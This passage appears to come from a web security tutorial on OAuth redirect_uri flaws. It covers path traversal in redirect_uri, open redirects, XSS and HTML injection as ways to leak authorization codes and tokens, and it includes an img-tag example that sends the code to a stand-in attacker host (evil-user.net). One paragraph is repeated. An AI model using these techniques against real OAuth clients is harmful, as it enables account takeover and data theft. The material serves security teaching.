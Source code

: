 
Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the `redirect_uri`. However, that doesn't mean it's time to give up.

By this stage, you should have a relatively good understanding of which parts of the URI you can tamper with. The key now is to use this knowledge to try and access a wider attack surface within the client application itself. In other words, try to work out whether you can change the `redirect_uri` parameter to point to any other pages on a whitelisted domain.

Try to find ways that you can successfully access different subdomains or paths. For example, the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, which is unlikely to have any interesting subdirectories. However, you may be able to use [directory traversal](https://portswigger.net/web-security/file-path-traversal) tricks to supply any arbitrary path on the domain. Something like this:

`https://client-app.com/oauth/callback/../../example/path`

May be interpreted on the back-end as:

`https://client-app.com/example/path`

Once you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities that you can potentially use to leak the code or token. For the [authorization code flow](https://portswigger.net/web-security/oauth/grant-types#authorization-code-grant-type), you need to find a vulnerability that gives you access to the query parameters, whereas for the [implicit grant type](https://portswigger.net/web-security/oauth/grant-types#implicit-grant-type), you need to extract the URL fragment.

One of the most useful vulnerabilities for this purpose is an open redirect. You can use this as a proxy to forward victims, along with their code or token, to an attacker-controlled domain where you can host any malicious script you like.

Note that for the implicit grant type, stealing an access token doesn't just enable you to log in to the victim's account on the client application. As the entire implicit flow takes place via the browser, you can also use the token to make your own API calls to the OAuth service's resource server. This may enable you to fetch sensitive user data that you cannot normally access from the client application's web UI.

In addition to open redirects, you should look for any other vulnerabilities that allow you to extract the code or token and send it to an external domain. Some good examples include:

In addition to open redirects, you should look for any other vulnerabilities that allow you to extract the code or token and send it to an external domain. Some good examples include:

- **Dangerous JavaScript that handles query parameters and URL fragments**  
    For example, insecure web messaging scripts can be great for this. In some scenarios, you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain.
- **[XSS](https://portswigger.net/web-security/cross-site-scripting) vulnerabilities**  
    Although XSS attacks can have a huge impact on their own, there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. As the `HTTPOnly` attribute is commonly used for session cookies, an attacker will often also be unable to access them directly using XSS. However, by stealing an OAuth code or token, the attacker can gain access to the user's account in their own browser. This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability.
- **HTML injection vulnerabilities**  
    In cases where you cannot inject JavaScript (for example, due to CSP constraints or strict filtering), you may still be able to use a simple HTML injection to steal authorization codes. If you can point the `redirect_uri` parameter to a page on which you can inject your own HTML content, you might be able to leak the code via the `Referer` header. For example, consider the following `img` element: `<img src="evil-user.net">`. When attempting to fetch this image, some browsers (such as Firefox) will send the full URL in the `Referer` header of the request, including the query string.